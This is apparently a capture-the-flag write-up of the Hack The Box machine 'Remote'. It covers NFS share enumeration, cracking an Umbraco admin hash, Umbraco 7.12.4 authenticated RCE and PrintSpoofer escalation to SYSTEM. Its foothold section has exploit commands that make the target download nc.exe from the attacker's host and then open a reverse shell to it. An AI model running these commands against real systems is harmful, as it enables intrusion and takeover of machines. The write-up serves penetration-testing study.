<p style="text-align:center">
  
</p>

<p>
  
  
  
</p>

> **TL;DR** - An exposed NFS share (`/site_backups`) mounts without authentication and contains an Umbraco CMS backup. The admin password hash lives in `Umbraco.sdf`; cracking it with rockyou gives CMS login. Umbraco 7.12.4 is vulnerable to authenticated RCE, which we use to stage `nc.exe` and pop a reverse shell. The service account holds `SeImpersonatePrivilege`, so PrintSpoofer escalates straight to `nt authority\system`.

---

## Recon

Starting this machine with a full nmap scan.

```bash
nmap -sV -sC -p- -oA nmap/remote 10.129.230.172
```



Several ports open. The nmap scripts flagged anonymous FTP login, so I started there.



The FTP server was empty, so I moved to port 80.



A product store. I fuzzed for directories.

```bash
ffuf -u http://10.129.230.172/FUZZ -w /usr/share/wordlists/dirb/big.txt
```



Most endpoints led back to the main site, but one redirected to a separate login page.



It's `Umbraco`, a .NET CMS. The login was a dead end on its own, so I went back to the nmap results, where NFS stood out.



### NFS share → Umbraco credentials

An NFS share was exported to everyone, a likely foothold. I mounted it.

```bash
sudo mount -t nfs4 10.129.230.172:/site_backups mnt/ -o nolock
```

A site backup on an open NFS share is a goldmine: it's the application's files and database sitting on disk, outside the app's auth. For a .NET CMS like Umbraco, two things matter, `Web.config` (connection strings, keys) and the embedded database file.

`Web.config` pointed at a database file, `Umbraco.sdf`, under `App_Data`. I pulled strings from it, filtering for anything credential-like.

```bash
strings Umbraco.sdf | grep -iE 'admin|password|hash|@'
```





That surfaced the admin password hash. Umbraco 7 uses SHA1 (hashcat mode 100).

```bash
hashcat -m 100 admin_hash /usr/share/wordlists/rockyou.txt
```



Cracked to `admin@htb.local:baconandcheese`, which logged into the Umbraco admin panel.



---

## Foothold - Umbraco 7.12.4 authenticated RCE

The panel reported `Umbraco 7.12.4`, which is vulnerable to authenticated remote code execution. I used a public PoC ([noraj/Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)) to confirm it.



With RCE confirmed, I staged `nc.exe` by having the target download it from my machine.

```bash
python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.230.172/' \
  -c powershell.exe \
  -a "-NoProfile -Command Invoke-WebRequest -Uri http://10.10.16.100/nc.exe -OutFile C:/Windows/Temp/nc.exe"
```

Then fired a reverse shell (listener on 443 my side):

```bash
python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.230.172/' \
  -c powershell.exe \
  -a "-NoProfile -Command C:/Windows/Temp/nc.exe -e cmd.exe 10.10.16.100 443"
```



### user.txt

A shell as the web service account, and the first flag.

---

## Privilege Escalation - SeImpersonatePrivilege via PrintSpoofer

Checking my privileges, the account held `SeImpersonatePrivilege`.

```cmd
whoami /priv
```



`SeImpersonatePrivilege` lets a process impersonate the security context of any client that connects to a named pipe it controls. Tools like PrintSpoofer coerce a SYSTEM service into connecting to such a pipe, then impersonate it, turning the privilege into instant SYSTEM. On service accounts (IIS, MSSQL) this is the standard "potato" escalation.

`systeminfo` confirmed a patch level the technique works against.



I uploaded PrintSpoofer and ran it to spawn a SYSTEM shell.

```cmd
PrintSpoofer.exe -i -c cmd
```



### root.txt



---

## Conclusion

Remote is a tidy Windows easy that rewards going back to your nmap output, the web path is a dead end until you remember the open NFS share, which hands you the Umbraco backup and its hashed admin password. From there it's a known-version RCE and a textbook `SeImpersonatePrivilege` escalation.

The takeaway: don't tunnel-vision on the web app. Services like NFS, SMB and FTP often leak the credentials that unlock the web app. And on any Windows shell, run `whoami /priv` immediately, `SeImpersonatePrivilege` on a service account is a one-step path to SYSTEM via PrintSpoofer/Potato.

---

## Kill chain summary

| Phase       | Vector                                                       | Result                                     |
| ----------- | ------------------------------------------------------------ | ------------------------------------------ |
| Recon       | nmap + ffuf                                                  | Umbraco CMS + open NFS export              |
| Credentials | Mount NFS `/site_backups` → `Umbraco.sdf` hash → hashcat     | `admin@htb.local:baconandcheese`           |
| Foothold    | Umbraco 7.12.4 authenticated RCE → nc.exe reverse shell      | Shell as web service account - user.txt    |
| Root        | `SeImpersonatePrivilege` → PrintSpoofer                      | `nt authority\system` - root.txt           |

## References

- Umbraco 7.12.4 authenticated RCE - https://github.com/noraj/Umbraco-RCE
- PrintSpoofer (SeImpersonate → SYSTEM) - https://github.com/itm4n/PrintSpoofer
- NFS enumeration - https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting
